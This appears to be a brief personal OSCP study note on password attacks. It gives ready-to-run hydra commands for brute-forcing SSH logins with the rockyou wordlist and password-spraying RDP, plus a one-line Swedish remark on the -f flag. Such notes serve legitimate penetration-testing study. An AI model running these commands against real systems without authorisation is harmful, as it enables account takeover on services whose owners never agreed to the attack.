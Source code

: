 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/h. Password Attacks/1. SSH & RDP Attacks/"}
---
```


### SSH Password Brute Force:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou/rockyou.txt -s <port> ssh://<ip>
```

### RDP Password Spray:
```bash
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "<password>" rdp://<ip>
```

-f = stoppar efter första hittade inloggningen